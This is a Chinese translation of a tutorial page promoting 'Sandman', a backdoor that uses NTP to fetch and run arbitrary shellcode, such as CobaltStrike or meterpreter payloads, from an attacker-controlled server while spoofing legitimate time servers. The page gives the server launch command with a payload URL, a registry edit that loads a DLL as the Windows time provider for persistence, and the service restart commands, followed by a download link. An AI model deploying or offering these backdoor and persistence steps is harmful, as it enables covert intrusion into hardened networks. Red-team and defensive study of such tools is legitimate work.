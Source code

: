 # Sandman:基于 NTP 的后门，用于强化网络中的红队交战

> 原文：<https://kalilinuxtutorials.com/sandman/>

[![](img/3cb1fde8091243e27d5db9216e177682.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgP6RIdM3oDUYLqBZZkMcq4DkMge-5zdb7jy3aOOaLl9gCQkD11I2fXnfdvCUuI4mWRAIj188BtZ7YTDD_tIdzOn-cgn9MOWD7hiOYyUwkfXb9vkijOF16T3_kUNsUpr2TyudLzKHz9zGPBbTVmlfu9ZRyk27T3DJSnt03-mqQhkE71Id7o1TDyPOCt/s728/Sandman.png)

Sandman 是一个后门程序，在红队交战期间用于加固网络。

Sandman 作为 stager 工作，利用 NTP(一种同步时间和日期的协议)从预定义的服务器获取并运行任意的**外壳代码**。

因为 NTP 是一种被许多防御者忽视的协议，导致了广泛的网络可访问性。

## 用法

### sandmanswerver _usage)

**在 windows / *nix 机器上运行:**

```
python3 sandman_server.py "Network Adapter" "Payload Url" "optional: ip to spoof"
```

*   **网络适配器:**您希望服务器监听的适配器(例如以太网用于 Windows，eth0 用于*nix)。
*   **有效负载 Url:** 外壳代码的 Url，它可以是您的代理(例如，CobaltStrike 或 meterpreter)或其他 stager。
*   **要欺骗的 IP:**如果要欺骗合法的 IP 地址(例如 time.microsoft.com 的 IP 地址)。

### 散货后门(用途)

首先，您可以将 SandmanBackdoor 编译为下面提到的，因为它是一个单一的轻量级 C#可执行文件，您可以通过 ExecuteAssembly 执行它，作为 NTP 提供程序运行它，或者只是执行/注入它。

### SandmanBackdoorTimeProvider(用法)

要使用它，您需要遵循简单的步骤:

*   **添加以下注册表值:**

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient" /v DllName /t REG_SZ /d "C:\Path\To\TheDll.dll"
```

*   **重启 w32time 服务:**

```
sc stop w32time
sc start w32time
```

**注意:确保使用 x64 选项而不是任何 CPU 选项进行编译！**

## 功能

*   从攻击者控制的服务器获取并执行任意有效载荷。
*   可以在加固的网络上工作，因为防火墙中通常允许 NTP。
*   通过 IP 欺骗冒充合法的 NTP 服务器。

## 设置

### SandmanServer (Setup)

*   Python 3.9
*   需求在[需求](https://github.com/Idov31/Sandman/blob/master/SandmanServer/requirements.txt)文件中规定。

### 睡魔后门(设置)

为了编译后门，我使用了 Visual Studio 2022，但正如在[用法部分](https://github.com/Idov31/Sandman#usage)中提到的，它可以用 VS2022 和 CSC 编译。您可以使用 USE_SHELLCODE 并使用 Orca 的外壳代码来编译它，也可以不使用 USE_SHELLCODE 来使用 WebClient。

### SandmanBackdoorTimeProvider(设置)

为了编译我用的 Visual Studio 2022 的后门，你还需要安装 [DllExport](https://github.com/3F/DllExport) (通过 Nuget 或者任何其他方式)来编译。您可以使用 USE_SHELLCODE 并使用 Orca 的外壳代码来编译它，也可以不使用 USE_SHELLCODE 来使用 WebClient。

[Click Here To Download](https://github.com/Idov31/Sandman)